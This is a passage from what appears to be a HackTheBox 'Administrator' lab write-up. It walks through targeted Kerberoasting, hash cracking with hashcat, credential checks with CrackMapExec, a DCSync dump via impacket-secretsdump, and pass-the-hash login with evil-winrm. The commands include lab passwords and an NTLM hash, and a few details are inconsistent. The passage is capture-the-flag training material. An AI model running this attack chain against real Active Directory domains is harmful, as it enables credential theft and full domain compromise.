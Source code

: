 ```bash
 python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' 
```

![Targeted Kerberoast](/assets/images/HTB/Administrator/Admin11.png).

Using Hashcat I am able to crack the password for emily.

```bash
hashcat -m 13100 ethan_hash /usr/share/wordlists/rockyou.txt --force 
```
![cracking hash](/assets/images/HTB/Administrator/Admin12.png).

- ethan:limpbizkit

## DCSync Attack.

With CrackMapExec I verify is the credentials are valid.

```bash
crackmapexec smb 10.10.11.42 -u ethan -p limpbizkit --shares
```

![crackmapexec-ethan](/assets/images/HTB/Administrator/Admin13.png).


By Checking Bloodhound and seeking for possible attacks to advance, I find out that Ethan have **DCSync** Privileges over the domain. *DCSync attack* is a type of attack that allows the attacker to **mimic* a legitimate domain controller (DC)* with the purpose of retrieving password data form the Active Directory environment.The attacker essentially tricks a DC into sharing password hashes, including the highly valuable KRBTGT hash, without needing a foothold on the DC itself. 

![Bloodhound-Ethan](/assets/images/HTB/Administrator/Admin14.png).

```bash
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@10.10.11.42
```

![Bloodhound-Ethan](/assets/images/HTB/Administrator/Admin15.png).


login with RDP to the machine and get the root flag.

```bash
evil-winrm  -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```



## References:
- https://bloodhound.specterops.io/resources/edges/generic-all
- https://bloodhound.specterops.io/resources/edges/force-change-password
- https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction/
- https://trustmarque.com/resources/what-is-targeted-keberoasting/
- https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting 
- https://www.semperis.com/blog/dcsync-attack/